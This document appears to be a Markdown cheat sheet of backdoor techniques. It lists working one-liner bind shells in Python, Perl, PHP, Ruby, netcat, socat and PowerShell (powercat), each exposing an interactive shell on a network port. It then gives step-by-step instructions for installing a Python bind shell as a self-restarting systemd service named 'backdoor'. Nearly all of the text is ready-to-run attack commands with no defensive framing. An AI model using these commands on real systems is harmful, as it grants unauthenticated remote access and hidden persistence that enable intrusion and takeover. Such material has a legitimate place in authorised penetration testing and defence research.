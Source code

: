# Backdoors



## Oneliner Bind-shell(s)
### Python
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.bind(("0.0.0.0", 5555)); s.listen(1); conn,addr=s.accept(); os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'

```

### Perl
```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

### PHP
```bash
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

### Ruby
```bash
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

### Netcat Traditional
```bash
nc -nlvp 51337 -e /bin/bash
```

### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

### Socat
```bash
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

### Powershell
```bash
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
<br><br>

# Persistent Backdoor Setup

---

## **Step 1: Move the Script to a Persistent Location**
Move your Python bind shell script to `/usr/local/bin/` and make it executable:

```bash
sudo mv your_script.py /usr/local/bin/shell.py
sudo chmod +x /usr/local/bin/shell.py
```

## **Step 2: Create a Systemd Service File**

```bash
sudo nano /etc/systemd/system/backdoor.service
```

## **Step 3: Add the following content:**

```bash
[Unit]
Description=Persistent backdoor
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 /usr/local/bin/shell.py
Restart=always

[Install]
WantedBy=multi-user.target

```

## **Step 4: Enable and Start the Service**

```bash
sudo systemctl enable backdoor.service
sudo systemctl start backdoor.service

```

## **Step 5: Verify Service Status**

```bash
sudo systemctl status backdoor.service
```

## **Step 6: Stop and Remove the Service (If Needed)**

```bash
sudo systemctl stop backdoor.service
sudo systemctl disable backdoor.service
sudo rm /etc/systemd/system/backdoor.service
sudo systemctl daemon-reload
```
